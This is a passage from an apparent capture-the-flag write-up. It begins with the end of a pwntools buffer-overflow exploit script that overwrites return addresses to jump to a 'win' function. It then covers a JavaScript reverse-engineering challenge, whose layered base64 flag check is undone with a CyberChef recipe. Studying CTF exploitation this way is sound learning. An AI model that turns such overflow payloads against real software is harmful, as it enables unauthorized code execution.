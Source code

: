 ```py
payload = b"A"*0x20
payload+= p64(state+0x20)
payload+= p64(0x004012d0)

payload = payload[:-1]

payload+= p64(0xf1eeee2d)
payload+= p64(0xf1eeee2d)
payload+= p64(0xf1eeee2d)
payload+= p64(0xf1eeee2d)
payload+= p64(state+0x20)
payload+= p64(e.sym["win"]+0xf)
print(f"{payload=}")

p.sendline(payload)

p.interactive()
```

## javascription (rev, javascript)
<primary-label ref="rev"/>

the challenge
```js
const msg = document.getElementById("msg");
const flagInp = document.getElementById("flag");
const checkBtn = document.getElementById("check");

function checkFlag(flag) {
    const step1 = btoa(flag);
    const step2 = step1.split("").reverse().join("");
    const step3 = step2.replaceAll("Z", "[OLD_DATA]");
    const step4 = encodeURIComponent(step3);
    const step5 = btoa(step4);
    return step5 === "JTNEJTNEUWZsSlglNUJPTERfREFUQSU1RG85MWNzeFdZMzlWZXNwbmVwSjMlNUJPTERfREFUQSU1RGY5bWI3JTVCT0xEX0RBVEElNURHZGpGR2I=";
}

checkBtn.addEventListener("click", () => {
    const flag = flagInp.value.toLowerCase();
    if (checkFlag(flag)) {
        flagInp.remove();
        checkBtn.remove();
        msg.innerText = flag;
        msg.classList.add("correct");
    } else {
        checkBtn.classList.remove("shake");
        checkBtn.offsetHeight;
        checkBtn.classList.add("shake");
    }
});
```
solved with cyber chief: [](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)URL_Decode()Find_/_Replace(%7B'option':'Simple%20string','string':'%5BOLD_DATA%5D'%7D,'Z',true,false,true,false)Reverse('Character')From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=SlRORUpUTkVVV1pzU2xnbE5VSlBURVJmUkVGVVFTVTFSRzg1TVdOemVGZFpNemxXWlhOd2JtVndTak1sTlVKUFRFUmZSRUZVUVNVMVJHWTViV0kzSlRWQ1QweEVYMFJCVkVFbE5VUkhaR3BHUjJJPQ&oeol=VT)
